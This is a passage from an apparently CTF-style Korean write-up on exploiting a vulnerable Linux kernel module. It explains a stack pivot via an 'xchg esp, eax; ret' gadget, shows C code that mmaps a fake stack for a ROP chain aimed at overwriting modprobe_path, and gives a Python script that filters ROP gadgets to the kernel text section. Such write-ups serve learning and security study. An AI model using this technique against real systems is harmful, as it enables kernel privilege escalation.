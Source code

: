 ## **4. Stack pivot**


`stack pivot`을 위해 먼저 mmap 을 통해 `xchg esp, eax; ret` 가젯이 있는 주소 & 0xfffff000 에 영역을 할당하자.

그 이유는 아래 커널 모듈의 어셈블리를 보면 알 수 있다. 

```bash
.text:00000000000000E7 loc_E7:                                 ; CODE XREF: bk_ioctl+2E↑j
.text:00000000000000E7                 mov     rax, cs:user_input+10h
.text:00000000000000EE                 lea     rax, ops[rax*8]
.text:00000000000000F6                 call    __x86_indirect_thunk_rax ; PIC mode
.text:00000000000000FB                 jmp     loc_3C
```

`0x1003` command 를 요청했을 때, 우리가 지정한 주소를 `rax` 에 저장하고, `rax` 의 주소를 call 하는 것을 확인할 수 있다. 

우리가 뛸 곳의 주소는 `xchg esp, eax; ret;` 가젯이 있는 주소이다. 

실제 내가 구한 해당 가젯의 주소는 `kernel_base + 0x243298` 이다. 

실제 해당 가젯으로 코드를 뛰었다고 가정하자. 그 상태에서 `rax` 의 값은 해당 가젯이 있는 주소인 `kernel_base + 0x243298` 이다. `xchg esp, eax` 명령을 실행 한 후, `rsp`에는 `rax`의  하위 32bit 값이 들어갈 것이다. 그 값은 **xchg esp, eax 가젯 주소의 하위 32bit 값이 된다!.**

그렇다면 우리는 `rsp` 의 값을 `xchg esp, eax; ret;` 가젯의 하위 32 비트 주소로 컨트롤 할 수 있게된다. 

그렇다면 여기 주소에 `mmap`을 통해 영역을 할당하고, 그곳에 우리가 원하는 값을 쓴다면 가짜 stack 을 만들어 ROP 를 수행할 수 있게 된다. 

이 때, `mmap` 함수에 원하는 주소를 넣을 땐, 페이지 단위로만 주소를 설정 할 수 있으므로 0xfffff000 을 and 해주는 것이다. 

그 후 실제 rsp가 할당 되는 부분에 우리가 원하는 ROP 체인을 넣으면 된다. 

그것을 코드로 구현하면 다음과 같다. 

```c
    uint64_t* fake_stack = mmap(xchg_eax_esp__ret & 0xfffff000, 0x6000, 7, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    int stack_target = (xchg_eax_esp__ret & 0xfff) / 8;
    fake_stack[stack_target] = first_gadged_address;
```

## 5. **Find gadget**

이제 커널에서 적절한 가젯을 가져와 `modeprobe_path` 를 덮어쓰자

일반적인 elf 파일이라면 `ROPgadget` 이나 `Ropper` 등의 툴로 쉽게 구할 수 있겠지만, 해당 툴은 리눅스 커널 파일인 `vmlinux`에서 실제 적용할 수 있는 가젯을 명확하게 줄 수 없다. 

그 이유는 해당 툴들은 실제 실행 권한이 있는 코드 가젯만을 주는 것이 아니기 때문이다. 

따라서 범위를 좁혀서 실행권한이 있는 주소에만 가젯을 가져올 수 있도록 하자. 

+ tream.py

```python
import re
# ffffffff82202188 T _etext
# ffffffff81000000 T _text


def tream_data(input_file:str, text_start:int, text_end:int) -> None:
    with open(input_file, "r") as f:
        _lines = f.read().split("\n")
    ansi_escape = re.compile(r'\x1B[@-_][0-?]*[ -/]*[@-~]')
    with open(input_file, "w") as f:
        for _line_c in _lines:
            _line = ansi_escape.sub('', _line_c)
            if _line.startswith("0x"):
                _offset = int(_line.split(":")[0], 16)
                if _offset >= text_start and _offset <= text_end:
                    f.write(_line + "\n")
            
```